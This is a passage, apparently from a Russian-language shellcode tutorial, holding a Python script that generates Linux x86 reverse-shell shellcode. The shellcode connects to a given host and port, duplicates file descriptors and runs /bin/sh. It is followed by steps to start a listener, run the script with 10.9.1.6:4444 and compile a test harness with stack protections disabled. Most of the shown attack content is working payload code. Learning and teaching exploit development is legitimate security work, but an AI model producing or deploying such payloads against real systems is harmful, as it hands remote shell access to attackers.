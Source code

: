 ```py
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69"
    shellcode += "\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)

```

Подготавливаем слушатель, запускаем скрипт, копируем shellcode в нашу тестовую программу, компилируем и запускаем:         
```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

![run C code](./images/14/2021-10-16_17-38.png){width="80%"}       
